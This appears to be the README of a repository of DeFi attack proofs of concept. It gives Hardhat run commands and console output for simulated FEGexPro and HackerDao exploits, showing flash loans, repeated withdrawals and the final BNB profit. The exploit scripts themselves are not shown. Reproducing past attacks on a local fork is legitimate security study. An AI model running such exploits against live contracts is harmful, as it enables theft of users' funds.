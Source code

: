 # Basic Sample Hardhat Project

This project demonstrates a basic Hardhat use case. It comes with a sample contract, a test for that contract, a sample script that deploys that contract, and an example of a task implementation, which simply lists the available accounts.

Try running some of the following tasks:

```shell
npx hardhat accounts
npx hardhat compile
npx hardhat clean
npx hardhat test
npx hardhat node
node scripts/sample-script.js
npx hardhat help
```

## Run

### Simulate an attack running fegexpro

> Run

```
npx hardhat run --network hardhat scripts/hackerdao-script.js
```

> Result

```
➜  DefiAttackPocBox git:(main) ✗ npx hardhat run --network hardhat scripts/fegexpro-attack.js 
exploit deployed to: 0x243CD2aBE3896f8Fd11AA375CEe04EA685c8fCB8
start flashLoan: wbnb amount 0 bnb amount 0
Now I have WBNB num # 915842289447124857298
path call 0x243cd2abe3896f8fd11aa375cee04ea685c8fcb8
FEGexPro_address FEG_PRO_FBNB_amount:1051370338227328031779
createAttacker:
createAttacker:
createAttacker:
createAttacker:
createAttacker:
createAttacker:
createAttacker:
createAttacker:
createAttacker:
createAttacker:
debug # 1 amt of FBNB 115650737205006083495
withdraw 114598114043831447113 FBNB to 0x243cd2abe3896f8fd11aa375cee04ea685c8fcb8
withdraw 114598114043831447113 FBNB to 0x243cd2abe3896f8fd11aa375cee04ea685c8fcb8
withdraw 114598114043831447113 FBNB to 0x243cd2abe3896f8fd11aa375cee04ea685c8fcb8
withdraw 114598114043831447113 FBNB to 0x243cd2abe3896f8fd11aa375cee04ea685c8fcb8
withdraw 114598114043831447113 FBNB to 0x243cd2abe3896f8fd11aa375cee04ea685c8fcb8
withdraw 114598114043831447113 FBNB to 0x243cd2abe3896f8fd11aa375cee04ea685c8fcb8
withdraw 114598114043831447113 FBNB to 0x243cd2abe3896f8fd11aa375cee04ea685c8fcb8
withdraw 114598114043831447113 FBNB to 0x243cd2abe3896f8fd11aa375cee04ea685c8fcb8
withdraw 114598114043831447113 FBNB to 0x243cd2abe3896f8fd11aa375cee04ea685c8fcb8
withdraw 20204367594460596827 FBNB to 0x243cd2abe3896f8fd11aa375cee04ea685c8fcb8
path call 0x243cd2abe3896f8fd11aa375cee04ea685c8fcb8
finsh:BNB amount 1026477953416890657908
```

### Simulate HackerDao's Attack

> Process Analysis

- [https://jusonalien.github.io/hackerdaogong-ji-fen-xi-fu-xian.html](https://jusonalien.github.io/hackerdaogong-ji-fen-xi-fu-xian.html)

> Run
```
npx hardhat run --network hardhat scripts/hackerdao-script.js
```
> Result

```
➜  DefiAttackPocBox git:(main) npx hardhat run --network hardhat scripts/hackerdao-script.js
exploit deployed to: 0x5B06224F736a57635B5BCb50B8EF178B189107cB
owner address 0xf39fd6e51aad88f6f4ce6ab8827279cfffb92266 contract address 0x5b06224f736a57635b5bcb50b8ef178b189107cb
Now I have flash loaned WBNB num # 2500000000000000000000
after swap Now my WBNB num # 505082833655151138304
now I have 7029656601027818642253 HackerDao
Before swapExactTokensForTokensSupportingFeeOnTransferTokens my wbnb amt: 505082833655151138304
After swapExactTokensForTokensSupportingFeeOnTransferTokens my wbnb amt: 2675137850557090857986
now I have 7582486742903822384 HackerDao
path call 0x5b06224f736a57635b5bcb50b8ef178b189107cb
Finally I have 175208335819332962719 BNB
```
